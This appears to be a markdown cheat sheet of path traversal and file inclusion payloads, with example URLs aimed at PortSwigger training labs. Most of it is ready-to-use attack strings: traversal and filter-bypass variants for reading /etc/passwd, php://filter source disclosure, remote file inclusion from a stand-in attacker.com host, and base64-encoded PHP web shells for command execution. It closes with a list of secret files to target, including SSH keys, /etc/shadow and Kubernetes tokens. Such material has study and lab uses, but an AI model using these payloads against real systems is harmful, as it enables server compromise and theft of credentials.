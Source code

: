 - Simple Path traversal : 
```sh
../../../etc/passwd
```

- Another way: 
```sh
http://Zephir.com/artcile=New_shoes/../../../etc/passwd
```

- You can sometime do a Path traversal thanks to image path like this :
```sh
https://Portswiger.web-security-academy.net/image?filename=9.jpg

https://Portswiger.web-security-academy.net/image?filename=/etc/passwd
```

- Traversal sequences stripped :
```sh
https://Portswiger.web-security-academy.net/image?filename=....//....//....//etc//passwd
```

```sh
....// or ....\/
```

- Double Encoding : 
```sh
https://Portswiger.web-security-academy.net/image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34 
```

[URL double encoding](https://yolospacehacker.com/en/toolbox.php?id=LFIURLDoubleEncodage)
```
<   %3C %253C
>   %3E %253E
«   %22 %2522
‘   %27 %2527
/   %2F %252F
.   %2E %252E
=   %3D %253D
–   %2D %252D
:   %3A %253A
```

`You can double encode with burpsuite`

- Null Bytes :
```sh
https://Portswiger.web-security-academy.net/image?filename=../../../../etc/passwd%00.png

#Or

https://Portswiger.web-security-academy.net/image?filename=index.php%00
```

- Validation of start of path :
```sh
https://Portswiger.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd
```

- Read File with php:filter :
```sh
https://Portswiger.web-security-academy.net/image?filename=php://filter/convert.base64-encode/resource=index.php
```

- RFI:
```sh
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```

- If for some reason `**allow_url_include**` is **On**, but PHP is **filtering** access to external webpages ,you could use for example the data protocol with base64 to decode a b64 PHP code and get RCE:
```sh
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt
```

or

```sh
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```

- Interesting Linux files
```sh
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/run/secrets/kubernetes.io/serviceaccount/token
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/certificate
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/plocate/plocate.db
/var/lib/mlocate.db
```